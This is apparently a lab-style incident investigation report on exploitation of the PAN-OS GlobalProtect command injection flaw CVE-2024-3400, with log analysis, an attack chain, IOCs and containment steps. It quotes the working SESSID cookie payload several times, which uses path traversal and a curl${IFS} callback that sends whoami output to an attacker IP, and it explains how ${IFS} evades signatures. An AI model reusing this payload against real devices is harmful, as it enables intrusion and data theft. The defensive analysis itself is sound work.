

## Exploitation of Command Injection Vulnerability in Palo Alto Networks PAN-OS (CVE-2024-3400)

---

## Executive Summary

Highly suspicious activity was detected consistent with an exploitation attempt of the critical Command Injection vulnerability **CVE-2024-3400** against the organization's main edge gateway (PA-Firewall-01).

The attack vector consisted of an HTTP POST request directed at the GlobalProtect interface, containing a malicious payload inserted into the SESSID cookie field. The injected command sought to force the firewall to execute an external request using **curl**, sending information from the compromised system to attacker-controlled infrastructure.

Log analysis confirmed that the request was processed by the firewall's web service and logged as Allowed, indicating that the traffic was not blocked by the security device. The investigation also identified evidence of exploitation of the vulnerability through PAN-OS's internal telemetry mechanism, followed by the execution of a suspicious Python process associated with a backdoor.

The collected artifacts indicate a scenario consistent with compromise of the firewall through exploitation of CVE-2024-3400, presenting critical risk of remote code execution (RCE), persistence, lateral movement, and compromise of the network infrastructure.

---

## Initial Alert Analysis

The initial alert analysis identified several indicators characterizing an active exploitation attempt of the CVE-2024-3400 vulnerability.

### General Event Information



---

### Malicious Payload Identified

The payload observed in the **SESSID** field was:

```text
SESSID=./../../../opt/panlogs/tmp/device_telemetry/hour/aaa curl${IFS}144.172.79.92:4444?user=$(whoami)
```

The content of the cookie demonstrates an attempt to manipulate internal components of the firewall's operating system in order to execute arbitrary commands.

---

### Security Device Action

The device logged the exploitation attempt with the action **Allowed**.

This means that the firewall detected and logged the attack pattern, but did not block the malicious request during processing.

This behavior significantly increases the criticality of the incident, indicating the possibility of successful exploitation if the device was vulnerable to CVE-2024-3400.

---

## Attack Vector Analysis

Analysis of the captured payload reveals several elements characteristic of exploitation of the vulnerability.

### 1. Path Traversal Abuse

The value of the **SESSID** cookie begins with:

```text
./../../../
```

This pattern indicates an attempt to navigate between internal directories of the PAN-OS operating system in order to access paths outside the scope expected by the web application.

This behavior is consistent with **Path Traversal** techniques used to manipulate internal files during exploitation of the vulnerability.

---

### 2. Command Injection

The payload seeks to insert commands directly into the firewall's operating system.

The attacker's intent is to cause internal PAN-OS components to interpret and execute arbitrary commands during processing of the session cookie.

---

### 3. Use of the `${IFS}` Variable

The command uses:

```text
curl${IFS}144.172.79.92...
```

On Linux/Unix systems, **IFS (Internal Field Separator)** is a variable responsible for field separation, normally containing whitespace, tabs, and line breaks.

The use of this variable replaces conventional spaces and represents a technique frequently used to bypass simple detection mechanism signatures that look for commands containing explicit spaces.

---

### 4. Callback Attempt

The payload also attempts to execute the command:

```text
curl${IFS}144.172.79.92:4444?user=$(whoami)
```

This command has two main objectives:

* forcing the firewall to establish an outbound connection to the address **144.172.79.92** on port **4444**;
* sending as a request parameter the result of the **whoami** command, revealing the user responsible for executing the compromised process.

This behavior characterizes a callback attempt to attacker-controlled infrastructure, enabling validation of the exploitation and collection of information from the compromised system.

---

## Threat Intelligence Investigation

Enrichment of the indicators confirmed that the infrastructure used in the attack already had a malicious reputation in public threat intelligence databases.

### Indicator Information

| Indicator     | Type | Classification | VirusTotal Reputation | Associated Behavior                                     |
| ------------- | ---- | ------------- | -------------------- | ----------------------------------------------------------- |
| 144.172.79.92 | IPv4 | Malicious     | 10/94 Vendors        | Command and Control (C2) Server / Listener for Callbacks |

The reputation of the IP address reinforces that this is not a false positive or an authorized test.

A detection rate of **10 vendors** on VirusTotal represents a strong indication of infrastructure used in malicious campaigns, active exploitation, or command and control (C2) operations, corroborating the evidence observed during the investigation.

---

## Confirmation of Interaction and Network Telemetry

The **Nginx** and **SSL VPN** service network logs confirmed the attacker's direct interaction with the **GlobalProtect** interface, evidencing the processing of the requests responsible for exploiting the vulnerability.

### Observed Events

* The IP address **144.172.79.92** made two consecutive **HTTP POST** requests to the endpoints:

  * `/global-protect/login.esp`
  * `/global-protect/logout.esp`

* Both requests returned **HTTP 200 OK**, indicating that the web server processed the received requests.

* The attacker used the **User-Agent**:

```text
curl/8.4.0
```

The use of the **curl** utility demonstrates that the exploitation was carried out directly via the command line, reinforcing the automated and intentional nature of the activity.

---

## Evidence of Exploitation on the System

The logs from the internal **dt_send** service, responsible for the PAN-OS telemetry mechanism, demonstrate the processing of the malicious payload during exploitation of the vulnerability.

### Payload Write Record

The system logged an attempt to write the following path:

```text
/opt/panlogs/tmp/device_telemetry/day/aaacurl${IFS}144.172.79.92:4444?user=$(whoami)
```

This behavior demonstrates that the cookie value was used during the internal processing of the application without proper sanitization, directly reflecting the mechanics of exploitation of the abused vulnerability.

---

### Callback Status

During execution of the payload, the system logged the following error message:

```text
DNS lookup failed
```

This log indicates that the initial attempt to establish an outbound connection to the attacker's infrastructure was not successfully completed due to a name resolution failure or network restriction at the time of execution.

Despite this, subsequent evidence demonstrates additional activity on the compromised host, indicating that the exploitation was not interrupted at this stage.

---

## Execution of Suspicious Process

Endpoint telemetry identified post-exploitation activity a few seconds after the malicious requests, indicating possible compromise of the firewall's operating system.

### Process Identified

| Field              | Value                            |
| ------------------ | -------------------------------- |
| Time                | Apr 18 2024 15:09:55             |
| Parent Process       | systemd (`/lib/systemd/systemd`) |
| Executed Process | `/usr/bin/python3 update.py`     |
| User                | letsdefend                       |
| Hash Reputation  | 38/62 on VirusTotal              |

The process was started approximately **13 seconds** after exploitation of the web interface, showing strong temporal correlation with the observed attack.

The execution of the `update.py` script via the Python interpreter and linked to **systemd** indicates behavior consistent with persistence mechanisms on the operating system.

Additionally, the hash reputation, identified by **38 out of 62 vendors** on VirusTotal as **Backdoor**, **Python Agent**, and **Trojan**, reinforces the compromise of the asset.

---

## Analysis of Exploited Technique

The alert is associated with exploitation of the target vulnerability, a critical **Command Injection** flaw affecting **Palo Alto Networks PAN-OS** devices with the **GlobalProtect** service enabled.

The vulnerability allows specially crafted requests to manipulate internal system components, enabling the execution of arbitrary commands by the firewall's operating system.

Among the potential impacts of exploitation are:

* remote code execution (RCE);
* execution of arbitrary commands;
* installation of persistence mechanisms;
* communication with attacker-controlled infrastructure;
* complete compromise of the device.

The evidence observed during the investigation, including the payload present in the **SESSID** cookie, the processing of the command by the internal PAN-OS service, and the subsequent execution of the `update.py` script, are consistent with the expected behavior for exploitation of CVE-2024-3400.

---

## Attack Chain Reconstruction

The sequence of events observed during the investigation indicates an attack chain consistent with successful exploitation of the vulnerability.

1. The attacker originating from the address 144.172.79.92 sent HTTP POST requests to the endpoints `/global-protect/login.esp` and `/global-protect/logout.esp`.

2. The requests contained a malicious payload inserted into the SESSID field, exploiting the CVE-2024-3400 vulnerability through Path Traversal and Command Injection techniques.

3. The internal dt_send service processed the cookie without proper sanitization and logged the payload as part of the path:

```text
/opt/panlogs/tmp/device_telemetry/day/aaacurl${IFS}144.172.79.92:4444?user=$(whoami)
```

4. The injected command attempted to establish an outbound connection to the address 144.172.79.92 on port 4444, sending the result of the whoami command.

5. The initial callback failed due to the error DNS lookup failed, preventing the completion of this first communication attempt.

6. Approximately 13 seconds after the initial exploitation, the process `/usr/bin/python3 update.py` was identified, started by systemd under the user `letsdefend`.

7. The file's hash reputation confirmed the identification of the script as Backdoor, Python Agent, and Trojan, indicating compromise of the firewall and establishment of persistence.

---

## Impact Assessment

The severity level of this incident is classified as **Critical**, considering the evidence collected during the investigation and the compromise of an edge asset responsible for controlling infrastructure traffic.

### Compromise of the Edge Asset

PA-Firewall-01 acts as the network's main gateway. Compromise of this device may allow the attacker to gain privileged visibility over the organization's traffic, intercept communications, and compromise services exposed through the firewall.

---

### Persistence on the System

The evidence identified demonstrates the execution of the `update.py` script through the Python interpreter, started by systemd, indicating the establishment of persistence on the operating system.

This behavior allows the malicious code to continue running even after the termination of the session used during exploitation or after reboots of the device.

---

### Risk of Lateral Movement

With execution capability on the firewall, the attacker can use the device as a foothold to carry out new actions against internal assets of the organization, compromising protected segments of the infrastructure and expanding the impact of the incident.

---

## Indicators of Compromise (IOCs)

### IP Address

* 144.172.79.92 *(Source of exploitation and infrastructure used for callback/C2)*

---

### Hash

* SHA-256:

  * `3de2a4392b8715bad070b2ae12243f166ead37830f7c6d24e778985927f...`

---

### Files and Processes

* `/usr/bin/python3 update.py`
* `update.py`
* `systemd`

---

### Directories

* `/opt/panlogs/tmp/device_telemetry/`

---

### Endpoint

* `/global-protect/login.esp`
* `/global-protect/logout.esp`

---

### Network Port

* TCP 4444

---

## Containment Recommendations

The evidence indicates a scenario consistent with active compromise of the firewall, making it advisable to immediately adopt the following containment, eradication, and recovery measures.

### Immediate Containment Actions

* isolate **PA-Firewall-01** from the network, performing failover to a healthy device if a high availability (HA) environment exists;
* restrict management access to the affected device during the investigation;
* block the IP address **144.172.79.92** on all of the organization's edge devices;
* immediately terminate the process `/usr/bin/python3 update.py`.

---

### Eradication

* remove the `update.py` script from the system;
* remove any persistence service or mechanism created in systemd;
* apply the official Palo Alto Networks patch to fix the **CVE-2024-3400** vulnerability;
* reset all administrative credentials of the firewall;
* reset the credential of the `letsdefend` user;
* invalidate active administration sessions, APIs, and other credentials used by the device.

---

### Recovery and Monitoring

* review the logs of administrative user creation on the firewall;
* conduct Threat Hunting looking for connections originating from the firewall to the internal network;
* monitor for possible indications of lateral movement following exploitation of the vulnerability;
* maintain continuous monitoring for new exploitation attempts of the vulnerability and reuse of the indicators identified during the investigation.

---

## Final Verdict

The investigation confirmed a True Positive related to the successful exploitation of the critical vulnerability CVE-2024-3400 against PA-Firewall-01.

The evidence collected demonstrates that the attacker sent HTTP POST requests containing a Command Injection payload directed at the GlobalProtect interface, exploiting internal PAN-OS components to execute arbitrary commands.

The Nginx, SSL VPN, and dt_send service logs confirm the processing of the malicious payload by the system. Subsequently, the identification of the execution of the process `/usr/bin/python3 update.py`, started by systemd, together with the malicious reputation of the file's hash, provides consistent evidence of the compromise of the device and the establishment of persistence.

Given the correlation between the observed events, the reputation of the infrastructure used by the attacker, and the activity logged at the endpoint, it is concluded that the incident represents an effective compromise of the firewall, requiring immediate containment, eradication, and recovery actions to mitigate additional risks to the infrastructure.
